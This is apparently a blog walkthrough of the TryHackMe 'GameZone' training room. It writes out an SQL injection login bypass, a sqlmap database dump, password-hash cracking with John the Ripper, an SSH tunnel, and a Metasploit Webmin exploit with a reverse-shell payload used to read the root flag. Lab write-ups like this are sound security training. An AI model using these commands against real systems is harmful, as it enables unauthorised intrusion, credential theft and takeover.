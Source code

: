 ```yaml
---
slug: gamezone-walkthrough
title: TryHackMe - GameZone - Walkthrough
authors: bw
tags: [learning, gamezone, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [GameZone][gz]. Let’s get started!

# Deploy the Machine
Deploy the machine and verify access through the website. Right away, we can answer our first question. You can do a reverse image search on the image they describe for the first answer, or if you know what game the character is from you can Google the name!

# Obtain access via SQLi
This task is pretty simple. Let’s just follow along.

Enter `' or 1=1 -- -` as our username and leave the password blank. We get redirected to a page and that is our answer!

![g1](/img/thm/gz/g1.webp)

# Using SQLMap
Here we are going to use SQLMap to exploit this form on the “Game Zone Portal” page.

Let’s start BurpSuite in order to intercept a request. Make sure you have your proxy turned on and intercept on, then enter anything into the search field.

![g2](/img/thm/gz/g2.png)

Let’s copy that request into a `.txt` file so we can pass it into SQLMap later.

We can now format our SQLMap command:

`sqlmap -r request.txt --dbms=mysql --dump`

Run that command and SQLMap will begin testing different methods.

Once complete, we see the output of two tables. We can grab the next 3 answers from this output.

![g3](/img/thm/gz/g3-1.png)

# Cracking a password with JohnTheRipper
Make sure to copy the hash to a file, so we can run JohnTheRipper against it.

The format for JohnTheRipper is the following:

```bash
john hash.txt --wordlist=$PATH/rockyou.txt --format=Raw-SHA256
```
Run this and we get our de-hashed password!

![g4](/img/thm/gz/g4.webp)

Now ssh into the machine and find the user flag!

![g5](/img/thm/gz/g5.png)

# Exposing Services with Reverse SSH Tunnels
Now let’s run ss to get socket information. Run the following on the victim machine:

`ss -tulpn`

We need to expose port 10000 to us. We can run the following command in a new terminal window on our local machine:

`ssh -L 10000:localhost:10000 <username>@<victim_ip>`

From here we can open up a new browser tab and navigate to `localhost:10000`

**NOTE:** Make sure to turn your BurpSuite proxy off if the page isn’t loading!

![g6](/img/thm/gz/g6-1.webp)

Login with our already known credentials to get the CMS version.

# Privilege Escalation with Metasploit
We can load up Metasploit on our attack machine (`msfconsole`) and search for an exploit:

`search webmin 1.58`

We find a Remote Code Execution (RCE) exploit! Let’s try that.

![g7](/img/thm/gz/g7.webp)

```bash
use 1
options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run
```
The session was created in the background, so lets open it: `sessions 1`

`whoami`
`cat /root/root.txt`

![g8](/img/thm/gz/g8.png)

# Review
That was a really fun room! It covered SQL injection, hash cracking, reverse SSH tunnels, and metasploit! I really enjoyed this room. Granted, it was easy and walked you through most of it, but we still learned a lot in the process!

# References
[TryHackMe][thm] | [GameZone][gz]

[thm]: https://tryhackme.com
[gz]: https://tryhackme.com/why-subscribe?roomCode=gamezone
